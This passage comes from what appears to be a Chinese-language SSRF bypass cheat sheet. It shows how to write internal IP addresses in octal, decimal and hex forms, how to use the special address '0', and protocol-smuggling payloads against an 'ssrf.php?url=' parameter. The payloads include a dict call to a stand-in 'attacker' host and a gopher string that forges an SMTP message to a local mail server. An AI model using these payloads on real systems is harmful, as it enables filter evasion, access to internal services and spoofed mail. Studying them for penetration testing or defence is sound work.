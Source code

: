 #### 10、利用进制转换

```
可以是十六进制，八进制等。
115.239.210.26  >>>  16373751032
首先把这四段数字给分别转成16进制，结果：73 ef d2 1a
然后把 73efd21a 这十六进制一起转换成8进制
记得访问的时候加0表示使用八进制(可以是一个0也可以是多个0 跟XSS中多加几个0来绕过过滤一样)，十六进制加0x
```

![image-20230510204640080](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230510204640080.png)

```
http://127.0.0.1  >>>  http://0177.0.0.1/
```

![image-20230510204649311](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230510204649311.png)

```
http://127.0.0.1  >>>  http://2130706433/
```

![image-20230510204713709](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230510204713709.png)

```
http://192.168.0.1  >>>  http://3232235521/
http://192.168.1.1  >>>  http://3232235777/
```

![image-20230510204724990](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230510204724990.png)

#### 11、利用特殊地址

```
http://0/
```

![image-20230510204737890](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230510204737890.png)

#### 12、利用协议

```
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/
SFTP://
ssrf.php?url=sftp://example.com:11111/
TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```

#### 13、使用组合

各种绕过进行自由组合即可
